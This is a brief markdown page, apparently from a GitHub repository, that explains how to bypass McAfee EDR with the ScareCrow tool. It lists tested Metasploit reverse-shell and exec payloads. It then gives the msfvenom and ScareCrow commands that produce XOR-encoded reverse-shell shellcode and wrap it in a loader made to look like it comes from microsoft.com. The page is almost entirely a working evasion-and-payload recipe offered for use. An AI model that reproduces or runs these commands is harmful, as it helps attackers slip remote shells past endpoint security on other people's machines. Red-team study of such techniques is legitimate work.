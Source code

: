 # Bypassing using ScareCrow

You can use the [scarecrow](https://github.com/optiv/ScareCrow) tool to bypass McAfee EDR. We tested 3 types of metasploit payloads that work, they are:

* windows/x64/shell/reverse_tcp
* windows/x64/meterpreter_reverse_https
* windows/x64/exec

Commands:
```
$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw -a x64 -e x64/xor > shellcode.bin 
$ ./ScareCrow_4.11_linux_amd64 -I shellcode.bin -domain microsoft.com 
```

